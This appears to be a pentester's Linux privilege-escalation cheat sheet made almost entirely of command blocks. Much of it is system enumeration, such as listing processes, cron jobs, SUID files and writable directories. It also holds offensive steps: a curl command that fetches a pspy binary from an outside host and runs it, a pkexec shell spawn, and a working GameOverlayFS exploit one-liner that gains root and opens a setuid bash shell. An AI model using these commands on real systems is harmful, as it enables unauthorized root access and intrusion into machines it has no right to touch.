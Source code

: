 
# Box Survey
## Get box and user info  
```
date;id;w;uname -a; cat /etc/os*
```

```
printenv  
```


## Network stack  
```
ifconfig
```

```
ip a
```

```
ss -tulpn
```

```
netstat -tulpn
```

```
route
```

## Get-Processes  
```
ps -auxwwef
```

## Check for sudo privileges  
```
sudo -l
```
  
## View all available disks  
```
lsblk
```
  

# Snoop on processes  
```
curl http://192.168.45.193/pspy64 -o /dev/shm/pspy64
```

```
chmod +x /dev/shm/pspy64
```

```
./pspy64
```

  


# pkexec  

```
cat /etc/polkit-1/localauthority.conf.d/*
```

```
pkexec "/bin/sh"
```
  
# View kernel modules  
```
lsmod
```
  
# Get cron jobs

```
ls -latr /etc/*cron*  
ls -latr /etc/at*  
ls -latr /var/spool/cron/*  
grep 'CRON' /var/log/syslog  
```

# List packages on a Debian system  

```
dpkg -l  
```

# Find
## View files with the SUID bit set  
```
find / -perm -u=s -type f 2>/dev/null
```

## Directories writable by the current user  
```
find / -writable -type d 2>/dev/null
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```
  
## Directories that everyone can execute in  
```
find / -perm -o x -type d 2>/dev/null
```

## Writable Files
```
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

## GameOverLayFS Vulnerability (Ubuntu ) 

```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```